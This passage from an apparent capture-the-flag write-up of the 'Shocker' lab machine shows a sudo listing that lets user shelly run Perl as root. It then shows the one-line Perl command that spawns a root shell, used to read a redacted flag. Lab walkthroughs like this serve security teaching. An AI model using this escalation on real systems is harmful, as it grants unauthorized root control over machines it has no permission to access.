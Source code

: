 ```
shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```


All that is left is for us to execute a `/bin/bash` command using `/usr/bin/per` to obtain the system flag.

```
shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
sudo /usr/bin/perl -e 'exec "/bin/bash";'
root@Shocker:/home/shelly# cd ..
cd ..
root@Shocker:/home# cd ..
cd ..
root@Shocker:~# cat root.txt
cat root.txt
<Redacted system flag>
root@Shocker:~# 
```